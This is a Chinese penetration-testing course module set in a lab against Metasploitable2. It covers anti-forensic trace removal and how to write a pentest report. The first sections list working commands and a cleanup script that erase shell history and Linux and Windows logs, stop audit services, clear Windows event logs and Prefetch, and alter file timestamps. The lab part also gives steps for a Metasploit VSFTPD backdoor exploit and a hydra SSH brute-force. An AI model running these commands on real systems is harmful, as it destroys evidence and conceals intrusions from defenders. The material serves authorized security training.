


## 目录

- [[#一、Linux痕迹清除|一、Linux痕迹清除]]
  - [[#1.1 清除Shell历史|1.1 清除Shell历史]]
  - [[#1.2 清除系统日志|1.2 清除系统日志]]
  - [[#1.3 清除命令执行证据|1.3 清除命令执行证据]]
  - [[#1.4 清除文件系统痕迹|1.4 清除文件系统痕迹]]
  - [[#1.5 清除网络痕迹|1.5 清除网络痕迹]]
  - [[#1.6 退出时干净清理|1.6 退出时干净清理]]
- [[#二、Windows痕迹清除|二、Windows痕迹清除]]
  - [[#2.1 清除事件日志|2.1 清除事件日志]]
  - [[#2.2 清除命令历史|2.2 清除命令历史]]
  - [[#2.3 清除文件和MFT痕迹|2.3 清除文件和MFT痕迹]]
  - [[#2.4 注册表痕迹清除|2.4 注册表痕迹清除]]
- [[#三、自动化痕迹清除|三、自动化痕迹清除]]
  - [[#3.1 CoverMyAss工具|3.1 CoverMyAss工具]]
  - [[#3.2 自定义清理脚本|3.2 自定义清理脚本]]
- [[#四、渗透测试报告写作规范|四、渗透测试报告写作规范]]
  - [[#4.1 报告目的与结构|4.1 报告目的与结构]]
  - [[#4.2 漏洞分级标准|4.2 漏洞分级标准]]
  - [[#4.3 CVSS 3.1评分指南|4.3 CVSS 3.1评分指南]]
  - [[#4.4 截图与证据要求|4.4 截图与证据要求]]
  - [[#4.5 修复建议写作规范|4.5 修复建议写作规范]]
- [[#五、渗透测试全生命周期总览|五、渗透测试全生命周期总览]]
- [[#六、实践练习|六、实践练习]]

---

## 一、Linux痕迹清除

> 关联阅读：[[07-后渗透与权限维持|后渗透]] 中建立的后门和持久化机制在此处清理。

### 1.1 清除Shell历史

```bash
# Bash历史清除
history -c                              # 清除当前会话命令历史
rm -f ~/.bash_history                   # 删除bash历史文件
echo "" > ~/.bash_history               # 清空bash历史文件
unset HISTFILE                          # 禁用当前会话历史记录
export HISTSIZE=0                       # 设置历史记录大小为0
ln -sf /dev/null ~/.bash_history        # 将bash_history链接到/dev/null

# Zsh历史清除
rm -f ~/.zsh_history
rm -f ~/.zhistory

# 查看全局历史配置
cat /etc/profile | grep HIST
```

### 1.2 清除系统日志

主要日志文件位置：

| 日志文件 | 内容 |
|----------|------|
| `/var/log/syslog` 或 `/var/log/messages` | 系统主日志 |
| `/var/log/auth.log` 或 `/var/log/secure` | 认证日志 |
| `/var/log/kern.log` | 内核日志 |
| `/var/log/dpkg.log` 或 `/var/log/pacman.log` | 包管理器日志 |
| `/var/log/faillog` | 登录失败记录 |
| `/var/log/lastlog` | 最后登录记录 |
| `/var/log/wtmp` | 登录记录（二进制） |
| `/var/log/btmp` | 失败登录（二进制） |

**清除方法：**

```bash
# 方式1: 清空文本日志
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > /var/log/messages
echo "" > /var/log/kern.log
cat /dev/null > /var/log/wtmp
cat /dev/null > /var/log/btmp
cat /dev/null > /var/log/lastlog

# 方式2: shred安全删除 (多次覆写)
shred -zu /var/log/auth.log
shred -zu /var/log/syslog
shred -zu /var/log/messages
```

shred参数说明：

| 参数 | 说明 |
|------|------|
| `-z` | 最后用0覆写（隐藏shred操作） |
| `-u` | 覆写后删除文件 |
| `-n 5` | 覆写5次（默认3次） |
| `-v` | 显示进度 |

```bash
# 批量清除所有日志
find /var/log -type f -exec shred -zu {} \;

# 清除journalctl日志 (systemd)
journalctl --rotate           # 轮转日志
journalctl --vacuum-time=1s   # 清除1秒前的日志
journalctl --vacuum-size=1M   # 缩小日志到1MB
rm -rf /var/log/journal/*     # 直接删除日志文件
```

### 1.3 清除命令执行证据

```bash
# 停止日志服务 (操作本身会产生日志)
systemctl stop rsyslog 2>/dev/null
systemctl stop syslog-ng 2>/dev/null
systemctl stop auditd 2>/dev/null

# 清除audit日志
cat /dev/null > /var/log/audit/audit.log 2>/dev/null
```

二进制日志说明：

| 文件 | 位置 | 内容 |
|------|------|------|
| utmp | `/var/run/utmp` | 当前登录用户 |
| wtmp | `/var/log/wtmp` | 所有登录记录 |
| btmp | `/var/log/btmp` | 失败登录记录 |

### 1.4 清除文件系统痕迹

```bash
# 删除下载的工具/后门文件
rm -f /tmp/.update.sh
rm -f /tmp/backdoor.py
rm -f /var/tmp/nc
rm -rf /tmp/.hidden/

# 清除目录中的隐藏文件
find /tmp -name ".*" -type f -delete
find /var/tmp -name ".*" -type f -delete

# 修改文件时间戳 (触地时间抹除)
touch -r /etc/passwd ~/.bash_history    # 将bash_history时间改为passwd的时间

# 设定特定时间
touch -t 202401011200 ~/.bash_history   # 设为2024年1月1日12:00

# 全盘安全删除 (覆写空闲空间)
dd if=/dev/zero of=/tmp/bigfile bs=1M count=100
rm /tmp/bigfile
```

### 1.5 清除网络痕迹

```bash
# 清零防火墙计数器
iptables -Z                         # iptables计数器归零
nft reset counters                  # nftables计数器归零

# 清除ARP表
arp -d 192.168.1.1

# 如有修改过网络配置, 恢复原始配置
```

### 1.6 退出时干净清理

```bash
history -c && history -w            # 清除并写入(清空)历史
rm -f ~/.bash_history ~/.zsh_history
```

---

## 二、Windows痕迹清除

### 2.1 清除事件日志

**PowerShell（需管理员权限）：**

```powershell
# 清除三类日志
Clear-EventLog -LogName Security
Clear-EventLog -LogName System
Clear-EventLog -LogName Application

# 清除所有事件日志
wevtutil el | ForEach-Object { wevtutil cl $_ }
```

**CMD：**

```cmd
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
```

**Meterpreter：**

```bash
clearev                     # 清除应用程序/系统/安全日志
```

### 2.2 清除命令历史

```powershell
# PowerShell历史
Clear-History
Remove-Item (Get-PSReadlineOption).HistorySavePath

# CMD历史 (注册表)
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

# 清除回收站
Clear-RecycleBin -Force
rd /s /q C:\$Recycle.Bin
```

### 2.3 清除文件和MFT痕迹

```bash
# 安全删除 (需要sdelete工具, Sysinternals套件)
sdelete -p 3 C:\temp\payload.exe

# 使用cipher覆盖空余空间
cipher /w:C:\

# 清除Prefetch文件 (程序执行痕迹)
del C:\Windows\Prefetch\*.pf

# 清除最近使用文件记录
del %APPDATA%\Microsoft\Windows\Recent\* /q

# 清除跳转列表
del %APPDATA%\Microsoft\Windows\Recent\AutomaticDestinations\* /q
```

### 2.4 注册表痕迹清除

```bash
# 查看Run键 (持久化记录)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# 删除后门条目
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "BackupService" /f
```

---

## 三、自动化痕迹清除

### 3.1 CoverMyAss工具

```bash
# 基本使用 (如有安装)
covermyass now          # 立即清除常见痕迹
```

### 3.2 自定义清理脚本

创建 `/tmp/cleanup.sh`：

```bash
#!/bin/bash
echo "[*] 开始清除痕迹..."

# 清除bash历史
history -c
rm -f ~/.bash_history ~/.zsh_history

# 清除关键日志
for log in /var/log/auth.log /var/log/syslog /var/log/messages /var/log/kern.log; do
  if [ -f "$log" ]; then
    echo "  清除: $log"
    shred -zu "$log" 2>/dev/null || echo "" > "$log"
  fi
done

# 清除二进制日志
for log in /var/log/wtmp /var/log/btmp /var/log/lastlog; do
  if [ -f "$log" ]; then
    echo "  清除: $log"
    cat /dev/null > "$log"
  fi
done

# 清除journald
journalctl --rotate 2>/dev/null
journalctl --vacuum-time=1s 2>/dev/null

# 删除临时文件
rm -rf /tmp/.hidden* /tmp/.*.tmp /var/tmp/nc /var/tmp/backdoor*
rm -f /tmp/.update.sh /tmp/backdoor.py

# 清除环境变量痕迹
unset HISTFILE
export HISTSIZE=0

echo "[*] 痕迹清除完成"
echo "[!] 立即退出此shell: exit"
```

---

## 四、渗透测试报告写作规范

### 4.1 报告目的与结构

渗透测试报告向客户传达三个核心内容：
- 发现了哪些漏洞
- 这些漏洞可能造成的业务影响
- 如何修复这些漏洞

标准报告结构：

```
1. 封面 (Cover Page)
   - 项目名称, 测试类型 (黑盒/白盒/灰盒)
   - 测试日期, 测试人员/团队, 文档密级

2. 执行摘要 (Executive Summary)
   - 1-2页高层摘要, 面向管理层
   - 总体风险评估, 关键发现概述, 改进建议优先级

3. 测试方法 (Methodology)
   - 测试范围, 测试阶段, 工具列表, 限制条件

4. 发现详情 (Findings)
   每个漏洞完整记录:
   - 漏洞编号 (VULN-001), 标题, 严重等级
   - CVSS评分及向量, 影响资产
   - 漏洞描述, 复现步骤, 概念验证 (PoC)
   - 影响说明, 修复建议, 参考链接

5. 附录 (Appendices)
   - 工具输出日志, 截图证据
   - 网络拓扑图, 使用的字典/脚本, 术语表
```

### 4.2 漏洞分级标准

| 等级 | CVSS | 典型示例 |
|------|------|----------|
| **Critical (严重)** | 9.0–10.0 | 无需交互的远程代码执行 (MS17-010, RCE backdoor)、直接获取域管理员、SQL注入读取敏感库 |
| **High (高危)** | 7.0–8.9 | 需认证但可提权、敏感信息泄露、需交互的RCE、未授权管理功能访问、SUID提权、弱密码+远程登录 |
| **Medium (中危)** | 4.0–6.9 | 存储型XSS、CSRF（可导致操作更改）、目录列表、服务器信息泄露 |
| **Low (低危)** | 0.1–3.9 | 反射型XSS（低影响）、缺少安全HTTP头、版本信息暴露、默认凭证（无数据访问） |
| **Informational (信息)** | 0.0 | 非直接风险但可优化：SSL证书即将到期、技术栈列表 |

### 4.3 CVSS 3.1评分指南

CVSS（Common Vulnerability Scoring System）由三组指标组成：

**基本指标（Base）：**

| 指标 | 可选值 |
|------|--------|
| 攻击向量 (AV) | Network / Adjacent / Local / Physical |
| 攻击复杂度 (AC) | Low / High |
| 权限要求 (PR) | None / Low / High |
| 用户交互 (UI) | None / Required |
| 范围 (S) | Unchanged / Changed |
| 机密性影响 (C) | None / Low / High |
| 完整性影响 (I) | None / Low / High |
| 可用性影响 (A) | None / Low / High |

**时间指标（Temporal）：**

| 指标 | 可选值 |
|------|--------|
| 利用代码成熟度 (E) | Not Defined / High / Functional / PoC / Unproven |
| 修复级别 (RL) | Not Defined / Official Fix / Temporary Fix / Workaround / Unavailable |
| 报告可信度 (RC) | Not Defined / Confirmed / Reasonable / Unknown |

CVSS计算器：https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator

示例评分：

| 漏洞 | CVSS | 向量 |
|------|------|------|
| VSFTPD后门 (RCE, root) | 10.0 (Critical) | AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H |
| SSH弱密码 | 7.5–8.0 (High) | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 目录列表信息泄露 | 5.3 (Medium) | AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N |

### 4.4 截图与证据要求

截图要求：
- 清晰显示漏洞参数或输入
- 包含目标URL/IP和测试时间（浏览器地址栏）
- 显示漏洞利用结果（获取的Shell、读取的数据等）
- 使用红框标注关键信息
- 命名规范：`VULN-001_poC.png`, `VULN-001_impact.png`

工具输出：
- nmap扫描结果（关键部分）
- Metasploit利用成功的回显
- Wireshark捕获的分析图
- 敏感数据样本（脱敏处理后）

### 4.5 修复建议写作规范

好的修复建议应满足：

| 要求 | 差的示例 | 好的示例 |
|------|----------|----------|
| 具体可操作 | "加强SSH安全" | "将 `/etc/ssh/sshd_config` 中 `PermitRootLogin` 设为 `no`，重启sshd后用 `ssh root@host` 确认无法登录" |
| 按优先级排序 | 混在一起 | 短期：改密码；长期：部署MFA |
| 有验证方法 | 无 | "使用 `nmap -p22 --script ssh-auth-methods` 验证" |
| 参考权威来源 | 无 | 参考 CIS Benchmarks, OWASP, vendor advisory |

---

## 五、渗透测试全生命周期总览





### 渗透测试完整检查清单

| 阶段 | 检查项 |
|------|--------|
| 信息收集 | whois, dnsrecon, theharvester, Google Dork |
| 扫描枚举 | nmap -sS -sV -sC -p-, nikto, enum4linux |
| 漏洞利用 | 服务版本→CVE对应, Metasploit利用 |
| 后渗透 | 系统信息, 凭证导出, 提权尝试, 持久化 |
| 横向移动 | SSH隧道, proxychains, chisel |
| 痕迹清除 | 日志清除, 后门移除, 配置恢复 |
| 报告撰写 | 摘要, 漏洞详情, CVSS, 修复建议, 证据引用 |

---

## 六、实践练习

> 实验环境：攻击机 ArchStrike (192.168.1.50)，靶机 Metasploitable2 (192.168.1.100)

### 阶段一：完整渗透流程回顾

```
Step 1: 信息收集
  - whois, dnsrecon, theharvester 收集目标信息
  - 记录所有发现的域名, IP, 子域名

Step 2: 扫描枚举
  - nmap -sS -sV -sC -p- -oA full_scan <target>
  - nmap --script=vuln -p- <target>
  - enum4linux -a <target>
  - nikto -h http://<target>

Step 3: 漏洞利用
  - 识别可利用的漏洞 (服务版本→CVE)
  - msfconsole 搜索和利用漏洞
  - 记录每次成功利用的确切步骤和截图

Step 4: 后渗透
  - 信息收集: 系统信息, 网络环境, 凭证
  - 提权尝试: suid, sudo, kernel exploit
  - 持久化: SSH密钥, crontab, 服务

Step 5: 清理阶段
  - 清除所有添加的后门和持久化
  - 清除日志痕迹
  - 恢复修改的配置
```

### 阶段二：整理发现和证据

```bash
# 创建证据目录
mkdir -p ~/penetration_report/evidence/screenshots
mkdir -p ~/penetration_report/evidence/scans
mkdir -p ~/penetration_report/evidence/logs

# 整理扫描输出
cp ~/scan/ms2/nmap_full.* ~/penetration_report/evidence/scans/
cp ~/scan/ms2/nikto_scan.html ~/penetration_report/evidence/scans/

# 整理截图 (每个成功利用的漏洞)
# 截图1: VSFTPD后门利用成功屏幕
# 截图2: Meterpreter sysinfo输出
# 截图3: hashdump结果
# 截图4: SSH密钥后门配置完成
```

**创建目击记录（Observation Log）：**

```
[时间] 2024-01-15 14:30 - nmap扫描完成, 发现21个开放端口
[时间] 2024-01-15 14:45 - VSFTPD v2.3.4发现, CVE-2011-2523
[时间] 2024-01-15 14:50 - 利用成功, 获得root shell
[时间] 2024-01-15 15:00 - SSH持久化建立
```

### 阶段三：撰写报告

创建报告文件 `~/penetration_report/penetration_test_report.md`：

```markdown
# Metasploitable2 渗透测试报告

## 1. 执行摘要

本次渗透测试针对Metasploitable2靶机(192.168.1.100)进行。
测试方法为黑盒测试，模拟外部攻击者的视角。

**总体风险等级: Critical (严重)**

测试发现6个严重漏洞，包括多个远程代码执行漏洞和后门账号，
攻击者可以轻易获取系统的root权限。

**关键发现:**
1. VSFTPD v2.3.4后门 - 匿名远程代码执行 (Critical)
2. UnrealIRCd后门 - 远程代码执行 (Critical)
3. DistCC远程代码执行 (Critical)
4. 多个弱密码账号 (High)
5. 开放的敏感服务 (High)
6. 目录列表信息泄露 (Medium)

**建议:**
- 立即升级或替换存在后门的服务软件
- 实施强密码策略, 禁用不必要的服务
- 配置防火墙, 限制不必要的端口访问
- 部署入侵检测系统(IDS)

## 2. 测试方法

**测试范围:** Metasploitable2系统及所有开放服务
**测试时间:** 2024-01-15
**测试IP:** 192.168.1.100
**攻击机IP:** 192.168.1.50

**测试阶段:**
1. 信息收集 (被动+主动)
2. 漏洞扫描与识别
3. 漏洞利用
4. 后渗透与信息收集
5. 痕迹清除

**使用工具:**
nmap, searchsploit, Metasploit, John the Ripper, hydra, sqlmap

**限制条件:**
测试在隔离的实验室环境中进行, 无外部网络依赖

## 3. 发现详情

### VULN-001: VSFTPD v2.3.4 后门远程代码执行

- **严重等级:** Critical (CVSS 10.0)
- **CVSS向量:** AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- **影响资产:** 192.168.1.100:21 (FTP服务)
- **描述:**
  Metasploitable2上的VSFTPD版本2.3.4包含已知后门(CVE-2011-2523)。
  攻击者可通过发送特定的用户名触发后门，在6200端口获得root shell。
- **复现步骤:**
  1. 使用Metasploit: msfconsole
  2. use exploit/unix/ftp/vsftpd_234_backdoor
  3. set RHOSTS 192.168.1.100
  4. exploit → 获得root shell
- **影响:** 攻击者可获得root权限，完全控制目标系统，
  可进行任意文件操作、窃取敏感数据、作为跳板攻击内网。
- **修复建议:**
  1. 立即升级VSFTPD到最新版本 (修复后的版本为3.0.3+)
  2. 如不需要FTP服务: systemctl stop vsftpd && systemctl disable vsftpd
  3. 扫描系统确认无其他后门: rkhunter --check
- **参考:**
  - CVE-2011-2523
  - https://www.exploit-db.com/exploits/17491

### VULN-002: UnrealIRCd 3.2.8.1 后门 (Critical)
[类似格式...]

### VULN-004: 弱密码账号 (High)

- **严重等级:** High (CVSS 8.0)
- **CVSS向量:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **影响资产:** 192.168.1.100:22 (SSH), :21 (FTP)
- **描述:**
  系统存在多个使用弱密码的账号，攻击者可通过暴力破解获取访问。
  发现的弱账号: msfadmin:msfadmin, user:user, service:service。
- **复现步骤:**
  1. hydra -l msfadmin -P /usr/share/wordlists/fasttrack ssh://192.168.1.100
  2. 成功登录
- **修复建议:**
  1. 强制密码策略: 最小8位, 含大小写+数字+特殊字符
  2. 启用账户锁定策略 (fail2ban)
  3. 使用SSH密钥认证替代密码

## 4. 附录

- **附录A:** 完整nmap扫描输出 (见 evidence/scans/nmap_full.nmap)
- **附录B:** Nikto Web扫描报告 (见 evidence/scans/nikto_scan.html)
- **附录C:** 证据截图 (见 evidence/screenshots/)
```

### 阶段四：最终清理

```bash
# 确认所有后门已移除
ssh root@192.168.1.100
rm -f ~/.ssh/backdoor ~/.ssh/backdoor.pub
rm -f /etc/cron.d/backup
# 编辑 ~/.ssh/authorized_keys 删除后门公钥
exit

# 清除攻击机上的临时文件
rm -rf ~/scan/ms2
rm -rf ~/recon/target
rm -rf ~/mitm_lab
rm -f ~/.ssh/ms2_backdoor

# 归档报告
cd ~/penetration_report
tar czf metasploitable2_pentest_20240115.tar.gz *
echo "报告归档完成: metasploitable2_pentest_20240115.tar.gz"
```

### 阶段五：最终检查清单

```
=== 渗透测试完成检查单 ===
[ ] 信息收集完成
[ ] 扫描枚举完成
[ ] 漏洞利用验证
[ ] 后渗透信息收集
[ ] 所有截图已保存
[ ] 报告已撰写
[ ] 后门已清除
[ ] 日志痕迹已清除
[ ] 测试环境已恢复
[ ] 报告已提交
```

### 注意事项

- **渗透测试仅在授权范围内进行**，超出范围的操作可能违约违法
- 报告中的漏洞分级应基于实际业务影响，而非仅CVSS分数
- 截图中应避免包含攻击者个人信息（真实IP，主机名等）
- 靶机（Metasploitable2）的漏洞勿发布到公网
- 清除日志的操作本身也会产生日志（journald/systemd记录服务停止）
- 痕迹清除应在完全授权的情况下进行，否则属于破坏证据
- 专业报告中应包含建议的修复优先级和时间框架
- 某些法规环境（如PCI-DSS）可能要求特定格式的报告
- 建立"湿擦除"（wet cleanup）习惯：先列出做了什么改变，再逐项恢复
- 建立报告模板，可快速生成报告结构

---

> [[../总目录与快速查询|← 返回总目录]]
> 
> 相关模块：[[02-信息收集与侦察技术|信息收集]] · [[03-网络扫描与枚举技术|扫描探测]] · [[05-密码攻击与破解技术|密码破解]] · [[06-网络嗅探与中间人攻击|MITM攻击]] · [[07-后渗透与权限维持|后渗透]]
